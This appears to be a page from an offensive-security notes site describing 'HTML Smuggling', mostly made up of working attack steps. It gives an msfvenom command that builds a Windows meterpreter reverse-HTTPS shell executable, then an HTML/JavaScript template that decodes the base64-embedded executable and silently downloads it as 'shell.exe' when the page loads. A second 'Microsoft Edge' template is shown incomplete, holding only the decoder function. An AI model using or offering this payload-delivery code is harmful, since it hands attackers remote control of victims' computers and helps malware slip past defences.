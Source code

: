 ```yaml
---
title: HTML Smuggling
layout: default
parent: Client Side Execution
---
```


First generate a meterpreter shell:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

Then base64 the whole thing:

```bash
base64 /tmp/shell.exe
```

Remove all **line break** or **new lines**

Add the whole thing to below and serve as html (This works on Chrome only):

```html
<html>
<body>
<script>
function base64ToArrayBuffer(base64) {
var binary_string = window.atob(base64);
var len = binary_string.length;
var bytes = new Uint8Array( len );
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
}
return bytes.buffer;
}
var file ='BASE64 PAYLOAD NEWLINE/BREAK REMOVED'
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'shell.exe';
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```

For Microsoft Edge:
```html
<html>
<body>
<script>
function base64ToArrayBuffer(base64) {
var binary_string = window.atob(base64);
var len = binary_string.length;
var bytes = new Uint8Array( len );
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
}
return bytes.buffer;
}

</script>
</body>
</html>
```
